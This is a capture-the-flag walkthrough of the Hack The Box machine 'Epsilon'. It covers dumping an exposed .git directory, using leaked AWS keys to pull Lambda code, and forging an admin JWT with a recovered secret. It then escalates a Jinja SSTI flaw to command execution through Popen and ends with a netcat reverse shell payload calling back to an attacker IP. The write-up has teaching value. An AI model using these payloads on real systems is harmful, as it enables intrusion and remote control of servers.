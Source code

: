 # Epsilon
### Epsilon Machine(10.10.11.134)

![Screenshot from 2022-02-08 22-32-33](https://user-images.githubusercontent.com/79413473/153037809-0329e042-a149-43dd-8a54-442184fe8962.png)
## Recon:
+ Add *epsilon.htb* to hosts file.
+ Runing Port Scan we get 3 open ports
 ```
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.4 (Ubuntu Linux; protocol 2.0)
80/tcp   open  http    Apache httpd 2.4.41
| http-git: 
|   10.10.11.134:80/.git/
|     Git repository found!
|     Repository description: Unnamed repository; edit this file 'description' to name the...
|_    Last commit message: Updating Tracking API  # Please enter the commit message for...
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: 403 Forbidden
5000/tcp open  http    Werkzeug httpd 2.0.2 (Python 3.8.10)
|_http-title: Costume Shop
Service Info: Host: 127.0.1.1; OS: Linux; CPE: cpe:/o:linux:linux_kernel
```  
+ Port 80 is apache & port 5000 is running python costume shop application.
+ As shown in scan port 80 is *403 Forbidden* & have a **.git** directory that also is 403. Files like .**git/config & .git/HEAD** are accessible we will use 
  [GitTools](https://github.com/internetwache/GitTools) tool to dump this git directory and extract cotent from this .git file.
+ Port 5000 web application have a login panel, default & easy to guess passwords doesn't work.

![Screenshot from 2022-02-08 22-41-19](https://user-images.githubusercontent.com/79413473/153039325-416031ed-72ef-4330-ab7e-b30cc0519997.png)

+ Running ffuf on this application we get three directories
 ```
home
order
track

 ```
 + visiting **/track** will welcome you as **admin** but moment you interact with it you will redirected to loginn page like other pages. suggesting session is being checked at server.
 
 ## Foothold: Admin access by AWS leak & exploiting SSTI
 
+ As for now we have nothing other than **.git** directory which often leak stuffs.
+ Read *gittools docs* and you can dump the git directory using this command `./gitdumper.sh http://epsilon.htb/.git/ tmp_dir`
+ Now from this directory you can extract actual commits `./extractor.sh tmp_dir ./git`
+ Now you can read surce code and find that there are some AWS keys leaks & new endpoint.
 ```
 session = Session(
    aws_access_key_id='AQLA5M37BDN6FJP76TDC',
    aws_secret_access_key='OsK0o/glWwcjk2U3vVEowkvq5t4EiIreB+WdFo1A',
    region_name='us-east-1',
    endpoint_url='http://cloud.epsilong.htb') #this is a typo it's epsilon
aws_lambda = session.client('lambda')   
```
+ Accessing cloud.epsilon.htb will give you 403 in browser guess it's not accessible this way.
+ Let's add these keys to our **[aws cli](https://docs.aws.amazon.com/cli/latest/userguide/getting-started-install.html)**  and we can access aws lambda from our terminal.
*What is AWS LAMBDA?
AWS lambda provides service to  run your code on particular events or triggers. Mainly used in backend application to manage websites
Official Link: [CLick](https://aws.amazon.com/lambda/features/)*
+ run **aws configure** and add keys and region or manually paste keys in your **~/.aws/credentials** & region in **~/.aws/config** file.
+ You can learn more about aws lambda by **aws lambda help** it will give you all possible commands to run. One of our use is **list-functions & get-function**
+ Run `aws lambda list-functions` and you will get following error:
 `An error occurred (UnrecognizedClientException) when calling the ListFunctions operation: The security token included in the request is invalid`
+ Guess it also needs specify endpoint url , needed to take help from walkthrough.
+ `aws lambda list-functions --endpoint-url=http://cloud.epsilon.htb`
 ![Screenshot from 2022-02-08 23-08-00](https://user-images.githubusercontent.com/79413473/153044152-3a86cfce-562a-4c93-aba9-732490d7d526.png)

+ Let's fetch **costume_shop_v1** fucntion contents , `aws lambda get-function --function-name=costume_shop_v1 --endpoint-url=http://cloud.epsilon.htb`
![Screenshot from 2022-02-08 23-09-53](https://user-images.githubusercontent.com/79413473/153044411-4f2ae4a1-0cf5-485e-9ee9-f784564e2e38.png)

+ It reveals *Location of code*, Download it and unzip the file you will get some more code.
```
import json

secret='RrXCv`mrNe!K!4+5`wYq' #apigateway authorization for CR-124

'''Beta release for tracking'''
def lambda_handler(event, context):
    try:
        id=event['queryStringParameters']['order_id']
        if id:
            return {
               'statusCode': 200,
               'body': json.dumps(str(resp)) #dynamodb tracking for CR-342
            }
        else:
            return {
                'statusCode': 500,
                'body': json.dumps('Invalid Order ID')
            }
    except:
        return {
                'statusCode': 500,
                'body': json.dumps('Invalid Order ID')
            }
```  

+ Basic lambda fucntion for order tracking but interesting thing is secret key.
+ Now if you take a look on python source code of application 
```

@app.route("/", methods=["GET","POST"])
def index():
	if request.method=="POST":
		if request.form['username']=="admin" and request.form['password']=="admin":
			res = make_response()
			username=request.form['username']
			token=jwt.encode({"username":"admin"},secret,algorithm="HS256")
			res.set_cookie("auth",token)
			res.headers['location']='/home'
			return res,302
		else:
			return render_template('index.html')
	else:
		return render_template('index.html')
``` 
+ it sets jwt token in cookie **auth** and there is a secret used to sign this cookie. This secret could be a potential secret for that and it doesn't hurt to try. Btw this *admin:admin* creds doesn't work.
+ Let's create a jwt token in python
```
>>> import jwt
>>> secret='RrXCv`mrNe!K!4+5`wYq'
>>> token=jwt.encode({"username":"admin"},secret,algorithm="HS256")
>>> token
b'eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VybmFtZSI6ImFkbWluIn0.8JUBz8oy5DlaoSmr0ffLb_hrdSHl0iLMGz-Ece7VNtg'
>>> 
```  
+ set Cookie **auth=eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VybmFtZSI6ImFkbWluIn0.8JUBz8oy5DlaoSmr0ffLb_hrdSHl0iLMGz-Ece7VNtg** in browser and you have full access.
![Screenshot from 2022-02-08 23-19-48](https://user-images.githubusercontent.com/79413473/153046186-227226e3-9f96-48be-b3df-e66d6fcdb867.png)

+ On order page you can place new orders and it reflect you input

![2022-02-08_23-24](https://user-images.githubusercontent.com/79413473/153046917-6555527a-4eeb-4c83-8082-ca913b5abea1.png)

+ FIrst thing comes to mind is to check for xss, and indeed it is vulnerable to HTML injection,& XSS but it's of no use as we are already admin and no one is interacting with it and it's self xss it's not getting stored anywhere.
 ![Screenshot from 2022-02-08 23-27-03](https://user-images.githubusercontent.com/79413473/153047378-170939b0-27e1-433d-9bac-3f952ea4d328.png)
by setting `costume=glasses</p><h1>INJECTION</h1>`.

+ As it is a python application and input is reflected SSTI(Server Side Template INjection) only thing that could be tested now, and ofcourse machine tag has it :)
+ As expected `{{7*7}}` truns into **Your order of "49" has been placed successfully.**
 ### Creating exploit
 1. In python ** [.__class__](https://docs.python.org/release/2.6.4/library/stdtypes.html#instance.__class__) ** will tell to which class your current instance belongs to.
 ![Screenshot from 2022-02-08 23-42-02](https://user-images.githubusercontent.com/79413473/153049767-d552a80b-f752-43a2-ae73-289a6dcfd0c0.png)
`costume={{ ''.__class__ }}` tells it's an string class.
2. **[__mro__](https://docs.python.org/release/2.6.4/library/stdtypes.html#class.__mro__)** is an attribute of a class which tells base/parent class of this object.
`costume={{ ''.__class__.__mro__ }}` will show 
![Screenshot from 2022-02-08 23-47-15](https://user-images.githubusercontent.com/79413473/153050613-b77558f8-1edd-42e0-bd5b-09d9efb3062a.png)
3. Now as we want to climb up to root object we will access with `[1]`
4. Now we want to see how many subclasses are accessible through this root onject [__subclasses__() ](https://docs.python.org/release/2.6.4/library/stdtypes.html#class.__subclasses__). 
`costume={{ ''.__class__.__mro__[1].__subclasses__() }}` will return list of subclasses accessbile.
![Screenshot from 2022-02-08 23-51-33](https://user-images.githubusercontent.com/79413473/153051393-a27459b2-a1cd-43e4-93bd-ee04e58f575f.png)
5. From this haystack of list we need to find the needle i.e popen module which will execute the command. here that is at index of 389, used some find and replace all trick in sublime.
6. `costume={{ ''.__class__.__mro__[1].__subclasses__()[389]("id",shell=True,stdout=-1).communicate() }}` now through 389 we are accessing popen and providing it arguments to process & communicate() to read output  by interacting with process by sending data to stdin and reading from stdout or stderr.
![Screenshot from 2022-02-08 23-59-11](https://user-images.githubusercontent.com/79413473/153052383-a40e6ba0-2959-4b42-9dfa-b1b97282023e.png)

+ As now we have command executing we should get a shell and have your listener ready. I used this reverse shell `rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.0.0.1 1234 >/tmp/f` .Also needed to url encode only revshell part to make it work. Otherwise 500 server error.

`costume={{ ''.__class__.__mro__[1].__subclasses__()[389]("rm+/tmp/f%3bmkfifo+/tmp/f%3bcat+/tmp/f|/bin/sh+-i+2>%261|nc+10.10.14.29+8082+>/tmp/f",shell=True,stdout=-1).communicate() }}`
![Screenshot from 2022-02-09 00-02-53](https://user-images.githubusercontent.com/79413473/153052905-2c369163-7602-4e86-8a60-79674fc5fd89.png)






